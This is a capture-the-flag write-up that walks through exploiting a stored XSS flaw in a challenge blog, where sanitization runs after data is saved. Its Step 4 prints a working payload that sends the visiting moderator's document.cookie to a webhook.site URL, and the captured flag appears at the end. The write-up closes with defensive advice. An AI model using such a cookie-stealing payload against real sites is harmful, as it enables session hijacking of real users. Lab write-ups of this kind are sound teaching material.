 ### **Exploiting an XSS Vulnerability in a Blog with Moderator Visit**

![Screenshot](images/blog_chall.png)

In this challenge, we have a blog with a user registration and login system.  
We know that the **admin (or the moderator bot) will visit our profile** when we register and when we post an article.

A **source code leak** is also available.

![Screenshot](images/blog_leak.png)

---

### **Step 1: Analyzing the Source Code**

Looking at the leaked source code, we notice an **attempt at sanitization** of the fields, but it is performed **after the .save()**, meaning that **even if an error is displayed, the data is already stored in the database**.

The moderator will **visit our profile** after we create an account and post an article.

---

### **Step 2: Testing a Basic XSS Injection**

I first tried a simple XSS payload:

`<script> alert(1) </script>`

But an error was displayed:

![Screenshot](images/blog_error.png)

---

### **Step 3: Identifying the Vulnerable Field**

I tested different payloads by creating multiple accounts to determine **which field is exploitable**.

![Screenshot](images/blog_alert1.png)

After obtaining a registration token, I accessed my profile via `/user?token=$token`.

![Screenshot](images/blog_alert.png)

Result: An `alert(2)` is displayed, **confirming that the name field is vulnerable**.

---

### **Step 4: Exploiting the Vulnerability to Steal Cookies**

Now that we know the `name` field is exploitable, we will inject an XSS payload to steal the moderator's cookie.

Payload used:

`<script> window.location.href = "https://webhook.site/66a3fb27-4a91-4cae-8c0e-a5f9dd8385e1?cookie=" + document.cookie </script>`

We register an account with this **payload in the name field**, and wait for the moderator to visit our profile.

The payload is executed, redirecting to our **webhook**, which captures the moderator's cookie.

![Screenshot](images/blog_webhook.png)

---

### **Step 5: Creating an Article to Finalize the Attack**

To maximize our chances of execution, we also create a blog post with the same payload.

![Screenshot](images/blog_article.png)

After a while, we check our **webhook endpoint**, and **the cookie containing the flag is captured!**

🔗 **Webhook URL with the retrieved flag:**  
https://webhook.site/66a3fb27-4a91-4cae-8c0e-a5f9dd8385e1?cookie=FLAG=HACKDAY{0rd3R_M4tteRs_In_Ur_C0d3!!!!}

---

### **Conclusion**

This challenge demonstrates the importance of **proper operation ordering** in a web application's code.  
Here, **sanitizing inputs after storing them** allowed us to exploit a **stored XSS vulnerability**, leading to **complete compromise** via the moderator's session theft.

➡ **Protection against this type of attack:**

- Always **sanitize and validate inputs before storing them**.
- Enable `HttpOnly` on cookies to prevent theft via JavaScript.
- Use **Content Security Policy (CSP)** to limit the execution of malicious scripts.
- Implement **strict filters** on user input fields.